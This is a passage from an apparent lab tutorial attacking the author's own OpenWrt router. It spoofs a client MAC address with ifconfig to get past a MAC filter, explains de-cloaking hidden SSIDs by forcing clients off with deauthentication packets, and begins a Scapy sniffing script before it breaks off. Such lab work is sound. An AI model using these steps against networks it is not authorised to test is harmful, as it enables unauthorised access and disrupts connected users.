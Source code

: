 And sure enough:

    INFO:root:Probe request for OpenWrt from 00:26:37:97:9a:7e

So now we have the MAC address for one of the client. Let's change ours:

    root@kali:~# ifconfig wlan0 down
    root@kali:~# ifconfig wlan0 hw ether 00:26:37:97:9a:7e
    root@kali:~# ifconfig wlan0 up

And sure enough, we can now connect to the network!

    root@kali:~# ifconfig wlan0
    wlan0     Link encap:Ethernet  HWaddr 00:26:37:97:9a:7e  
              inet addr:192.168.1.188  Bcast:192.168.1.255  Mask:255.255.255.0

Beauty is on the router's side, there's still only one client connected:

    root@OpenWrt:~# iwinfo wlan0 assoclist
    00:26:37:97:9A:7E  -65 dBm / -95 dBm (SNR 30)  200 ms ago
    RX: 58.5 MBit/s, MCS 6, 20MHz                     91 Pkts.
    TX: 43.3 MBit/s, MCS 4, 20MHz, short GI           43 Pkts.

### Level 0x1: Hidden SSID ###

Let's step things up a very small notch by hiding the SSID on the router.

    root@OpenWrt:~# uci set wireless.@wifi-iface[0].hidden=1
    root@OpenWrt:~# uci commit
    root@OpenWrt:~# uci show wireless
    root@OpenWrt:~# wifi
    ...
    wireless.@wifi-iface[0].hidden=1

Sure enough the AP now disappears - but it doesn't mean it's no longer broadcasting. It's just not broadcasting its SSID, which the client is required to send to associate itself with the AP. Wait - the client needs to what?

Yes - the client needs to send a probe request containing the SSID. And association is never authenticated. The association process is explained visually [here](https://kb.meraki.com/knowledge_base/80211-association-process-explained). So that means de-cloaking hidden SSIDs is a two-step process:
  
  1. Find APs not broadcasting an SSID
  2. Find clients requesting association to those APs

Scapy pushes the SSID into the `info` field - if an AP is hidden that field will be empty.


Now we just need to wait for a client to associate with the AP, which, depending on the network, could be a very long wait. We can speed things up by broadcasting deauthentication packets to the client. What that means is that it will force the client to try and re-associate with the AP. To do so it will send probe requests, which will contain the SSID. Job, done.

So let's start monitoring and waiting...

{% highlight python %}
from scapy.all import *
from scapy.layers.dot11 import Dot11ProbeReq, Dot11
import logging
import sys
# default logging config to log info out to stdout
logging.basicConfig(level=logging.INFO, handlers=[logging.StreamHandler(sys.stdout)])

hidden_APs = set()
def processPacket(pkt):
  # 1. monitor beacon frames with no SSID
  if pkt.haslayer(Dot11Beacon):
    lyr = pkt.getlayer(Dot11)